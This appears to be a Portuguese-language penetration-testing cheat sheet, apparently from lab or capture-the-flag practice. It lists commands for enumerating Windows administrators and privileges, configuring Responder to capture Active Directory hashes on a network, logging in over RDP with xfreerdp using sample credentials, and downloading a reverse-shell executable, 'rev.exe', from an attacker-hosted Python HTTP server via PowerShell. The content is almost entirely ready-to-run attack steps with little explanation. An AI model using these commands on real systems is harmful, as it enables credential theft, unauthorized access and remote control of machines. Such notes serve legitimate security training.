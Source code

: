 powershell, enumerar usuários locais com permissão de administradores:
```
Get-LocalGroupMember -Group "Administrators"

ObjectClass Name                          PrincipalSource
----------- ----                          ---------------
User        EC2AMAZ-I8UHO76\Administrator Local
User        EC2AMAZ-I8UHO76\Guest         Local
User        EC2AMAZ-I8UHO76\Jenny         Local
```

**enumerar privilégios de usuário**
```
whoami /priv
whoami /all
```

# Active Directory (AD)

## hashes na rede
arquivo de configuração
```
/etc/responder/Responder.conf

# acrescentar o IP alvo
RespondTo = 172.16.1.145
```
obs: altera a linha respondTo para incluir apenas os nossos hosts alvo

```
responder -I eth0 -Pv
```

## Remote Desktop Protocol (rdp port 3389)
utilitário para interagir com rdp no linux
```
xfreerdp
xfreerdp /v:<IP_do_host> /u:<nome_do_usuário> /p:<senha>
xfreerdp /v:10.10.39.3 /u:Administrator /p:letmein123!
```


# powershell
transferencia do arquivo rev via powershell
```
Invoke-WebRequest -Uri http://<meu_ip>:PORT/rev.exe -OutFile "C:\PATH"

iwr -uri http://<meu_ip>:PORT/rev.exe -outfile rev.exe
```
executar antes
```
python3 -m http.server <PORT>
```
